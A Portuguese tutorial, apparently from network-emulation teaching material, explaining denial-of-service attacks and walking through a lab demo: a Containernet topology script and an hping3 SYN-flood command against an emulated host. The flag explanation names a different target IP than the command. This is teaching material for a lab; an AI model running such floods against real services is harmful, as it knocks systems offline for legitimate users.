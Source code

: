 ************
Denial of Service (DoS)
************
 
O que é?
-------------

Um ataque de negação de serviço (DoS) é uma tentativa de fazer com que algum serviço fique indisponível. Diferente de outros tipos de ataque, que estabelecem pontos de apoio ou sequestram dados, ataques DoS não ameaçam dados sensíveis. Este tipo de ataque tem apenas um objetivo de fazer com que sistemas fiquem indisponíveis para usuários legítimos. Contudo, alguns ataques DoS pode também serem usados para criar outros tipos de ataque para outras atividades maliciosas, como, por exemplo, derrubar firewalls de aplicativos da web, etc.).


.. Note::

    **Nesta demo você irá aprender como realizar o ataque de DoS:** 

    **Requisitos:** 
    
    - Containernet - https://github.com/ramonfontes/containernet
    - hping3
    
    **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Porém, para utilizar o containernet você deverá entrar no diretório ~/containernet e dentro dele executar o comando `sudo make install` Caso alguma dependência esteja faltando ela terá de ser resolvida.**
    

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:


.. code:: python

    #!/usr/bin/python
     
    """@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br"""

    from containernet.net import Containernet
    from containernet.node import Docker
    from containernet.cli import CLI
    from mininet.log import info, setLogLevel


    def topology():
        net = Containernet()

        info('*** Adding docker containers\n')
        h1 = net.addHost('h1', ip='10.0.0.1', cls=Docker,
                            dimage="ramonfontes/dos-attack")
        h2 = net.addHost('h2', ip='10.0.0.2', cls=Docker,
                         dimage="ramonfontes/dos-attack")
        h3 = net.addHost('h3', ip='10.0.0.254', cls=Docker,
                         dimage="ramonfontes/dos-attack")
        s1 = net.addSwitch('s1', failMode="standalone")

        info('*** Configuring WiFi nodes\n')
        net.configureWifiNodes()

        info("*** Associating Stations\n")
        net.addLink(h1, s1)
        net.addLink(h2, s1)
        net.addLink(h3, s1)

        info("*** Starting network\n")
        net.build()
        s1.start([])

        info('*** Running CLI\n')
        CLI(net)

        info('*** Stopping network\n')
        net.stop()


    if __name__ == '__main__':
        setLogLevel('info')
        topology()


Então, após executar o código, um simples ataque DoS (não DDoS) poderia ser realizado através do comando abaixo:


.. code:: console

  mininet-wifi> h1 hping3 -S --flood -V -p 80 10.0.0.254


.. Note::

   hping3: carrega o hping3.
   -S: especifica pacotes SYN.
   –flood: respostas serão ignoradas (é por isso que as respostas não serão mostradas) e os pacotes serão enviados o mais rápido possível.
   -V: Verbosity.
   -p 80: porta 80.
   170.155.9.185: IP alvo.
